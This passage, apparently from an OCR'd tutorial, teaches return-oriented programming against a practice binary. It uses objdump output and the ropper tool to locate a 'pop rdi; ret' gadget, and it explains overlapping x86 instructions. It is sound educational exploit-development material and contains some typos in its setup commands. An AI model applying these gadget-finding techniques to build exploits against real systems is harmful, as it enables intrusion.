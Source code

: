 ```bash
   4011dc:       41 5c                   pop    %r12
   4011de:       41 5d                   pop    %r13
   4011e0:       41 5e                   pop    %r14
   4011e2:       41 5f                   pop    %r15
   4011e4:       c3                      retq
   4011e5:       66 66 2e 0f 1f 84 00    data16 nopw %cs:0x0(%rax,%rax,1)
   4011ec:       00 00 00 00

   00000000004011f0 <__libc_csu_fini>:
```

The little gadget at 0x40111d that pops into `%rbp` and returns could be of use. As could and the last gadget. But both require that we find other gadgets, for example in libc, that move the data from one of the above registers to the `%rdi` register.

Instead of manually searching for gadgets, we can use a tool called `ropper`.

`ropper` is very useful for finding ROP gadgets (and much more). It can be installed by doing:

```c
$ virutalenv ropper
$ cd ropper
$ pip install ropper
$ source /bin/activate
```
>

Let's see what it finds in r2l2:

```bash
$ ropper -f r2l2 --search %rdi
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: %rdi

[INFO] File: r2l2
0x00000000004010a6: or dword ptr [rdi + 0x404030], edi; jmp rax;
0x0000000000401203: pop rdi; ret;
```

> The '%' isn't part of the register name (like AT&T syntax), but means *any string*.

That last gadget is exactly what we need! Why didn't it show up when we looked at `pop` operations in r2l2 above?

The reason is that `ropper` can find overlapping instructions. Overlapping instructions are found by starting at an offset when interpreting the bytes as instructions. Since x86 are instructions have variable byte lengths, the interpretation of a sequence of bytes will differ significantly if we start start from an offset.

If we specify a the starting address in `objdump`, the gadget appears:

```bash
$ objdump -d ../r2l2 --start-address=0x401203
...
0000000000401203 <__libc_csu_init+0x63>:
  401203:       5f                      pop    %rdi
  401204:       c3                      retq
  401205:       66 66 2e 0f 1f 84 00    data16 nopw %cs:0x0(%rax,%rax,1)
...
```
